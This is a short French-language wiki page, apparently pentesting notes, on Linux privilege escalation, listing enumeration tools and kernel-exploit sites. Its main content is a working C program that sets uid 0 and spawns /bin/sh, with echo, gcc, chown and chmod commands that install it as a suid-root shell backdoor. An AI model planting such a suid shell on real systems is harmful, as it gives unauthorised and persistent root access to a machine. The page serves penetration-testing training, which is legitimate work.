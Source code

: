 ```yaml
---
title: Elevation de priviléges (Linux)
permalink: /Elevation_de_priviléges_(Linux)/
---
```


# Elévation de priviléges (Linux)

Enumération
-----------

Cette étape consiste à rassembler des informations pour élever ses privilèges. Il peut être utilise d'utiliser le script [LinuxPrivChecker](http://www.securitysift.com/download/linuxprivchecker.py) pour récupérer automatiquement les informations utiles.

### Exploits Kernels

En fonction de la version du Kernel utilisé, le site <https://www.kernel-exploits.com/> recense des exploits kernels pour différentes versions de Linux.

Shell Root
----------

Si on peut executer des commandes en tant que root, mais que l'on a pas encore un "vrai" shell root, il peut être utile de compiler un programme permettant de lancer un shell et lui mettre le bit suid.

``` c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

int main()
{
    setuid(0);
    system("/bin/sh");
    return 0;
}
```

Dans un premier temps on créer le fichier permettra d'avoir un shell root:

``` bash
echo "#include <stdlib.h>"> main.c
echo "#include <stdio.h>">> main.c
echo "#include <unistd.h>">> main.c
echo "#include <sys/types.h>">> main.c
echo 'int main(){setuid(0);system("/bin/sh");return 0;}'>> main.c
```

Ensuite on le compile:

``` bash
gcc main.c -o suid
```

Ces deux étapes peuvent se faire sur une autre machine (notamment si gcc n'est pas présent). Ensuite il est nécessaire d’exécuter les commandes suivantes en tant que root:

``` bash
chown root:root suid
chmod ugo+s suid
```

Resources
---------

-   [G0tmi1k Blog](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
-   [Linux Exploit Suggester](https://github.com/PenturaLabs/Linux_Exploit_Suggester)
-   [PentestMonky unix-privesc-check](http://pentestmonkey.net/tools/audit/unix-privesc-check)
-   [LinuxPrivChecker](http://www.securitysift.com/download/linuxprivchecker.py)
-   [Kernel-Exploits](https://www.kernel-exploits.com/)
-   [Its Too Funky In Here04 Linux privilege escalation for fun profit and all around mischief](https://www.youtube.com/watch?v=dk2wsyFiosg)


